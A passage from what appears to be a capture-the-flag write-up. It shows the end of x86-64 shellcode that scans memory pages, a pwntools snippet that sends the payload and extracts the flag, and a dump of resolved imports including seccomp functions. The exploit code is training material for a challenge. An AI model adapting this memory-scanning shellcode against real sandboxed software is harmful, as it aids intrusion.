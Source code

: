 ```assembly
	unmapped_page_branch: // early continue
	add r9, 4096; // move to next page
	mov rcx, r8; // fix rcx for the loop check

loop page_scanner_loop;

// graceful exit
mov rax, 60;
mov rdi, 69;
syscall;
```

I also added a snippet of code to the python exploit to filter out the huge output and only print the flag:

```python
io.send(payload)

delim_left = b"flag{" if args.LOCAL else b"amateursCTF{"

resp = io.recvall()
resp = resp.split(delim_left)[1].split(b"}")[0]
resp = delim_left + resp + b"}"

print(resp.decode())
io.interactive()
```


[  0]:        0x7f03c9d06dc0    __libc_start_main
[  1]:                   0x0    __gmon_start__
[  2]:              0x403e10    UNKNOWN
[  3]:        0x7f03c9f642e0    UNKNOWN
[  4]:        0x7f03c9f3ec60    UNKNOWN
[  5]:        0x7f03c9f123d0    seccomp_init
[  6]:        0x7f03c9f137f0    seccomp_rule_add
[  7]:        0x7f03c9f12c40    seccomp_load
[  8]:        0x7f03c9dfbbc0    mmap
[  9]:        0x7f03c9d65060    setbuf
[ 10]:              0x401080    errx
[ 11]:        0x7f03c9d3d770    printf
[ 12]:        0x7f03c9df2100    close
[ 13]:        0x7f03c9df1980    read
[ 14]:        0x7f03c9df1690    open